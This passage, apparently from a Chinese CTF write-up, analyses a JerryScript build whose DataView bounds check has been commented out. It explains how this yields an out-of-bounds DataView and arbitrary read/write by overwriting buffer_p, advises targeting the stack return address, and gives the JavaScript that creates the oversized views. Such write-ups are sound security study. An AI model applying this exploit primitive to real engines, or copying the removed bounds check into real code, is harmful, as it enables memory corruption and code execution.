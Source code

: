 ```
    if (ECMA_IS_VALUE_ERROR (byte_length_value))
    `{`
      return byte_length_value;
    `}`

    /* 8.b */
    // if (offset + byte_length_to_index &gt; buffer_byte_length)
    // `{`
    //   return ecma_raise_range_error (ECMA_ERR_MSG ("Start offset is outside the bounds of the buffer"));
    // `}`

    //JERRY_ASSERT (byte_length_to_index &lt;= UINT32_MAX);
    view_byte_length = (uint32_t) byte_length_to_index;
  `}`
[...]
  ecma_object_t *object_p = ecma_create_object (prototype_obj_p,
                                                sizeof (ecma_dataview_object_t),
                                                ECMA_OBJECT_TYPE_CLASS);

  ecma_deref_object (prototype_obj_p);

  /* 11 - 14. */
  ecma_dataview_object_t *dataview_obj_p = (ecma_dataview_object_t *) object_p;
  dataview_obj_p-&gt;header.u.cls.type = ECMA_OBJECT_CLASS_DATAVIEW;
  dataview_obj_p-&gt;header.u.cls.u3.length = view_byte_length;//赋值给length
  dataview_obj_p-&gt;buffer_p = buffer_p;
  dataview_obj_p-&gt;byte_offset = (uint32_t) offset;

  return ecma_make_object_value (object_p);
`}` /* ecma_op_dataview_create */
```

根据上下文可以分析出来这一段判断是否越界的，再设置长度的，去掉这一判断就可以造成设置length的越界。然后根据前置知识我们就是可以获得一个DataView的OOB，接下来我们只需要更改buffer_p就可以任意地址R/W了。这里由于Jerry用的自己的一套内存管理最好选择打栈的返回地址最好。

### <a class="reference-link" name="2.%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>2.漏洞利用

漏洞利用就没什么能说的了，我直接拿题目给的去调的。本机环境20.04，题目给的是21.04不过差别不大，本机调完对远程改个偏移就能通了。

首先看下Debug版本中DataView的内存分布。直接下断点到ecma-dataview-object.c:155。

然后就可以利用Debug 版本的优化 自由输出变量的值。

```
var buffer = new ArrayBuffer(0x10)
var buffer2 = new ArrayBuffer(0x10)
data2=new DataView(buffer,0,0x100)
data=new DataView(buffer2,0,0x100)
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0177b71ea2f3a3eff5.png)

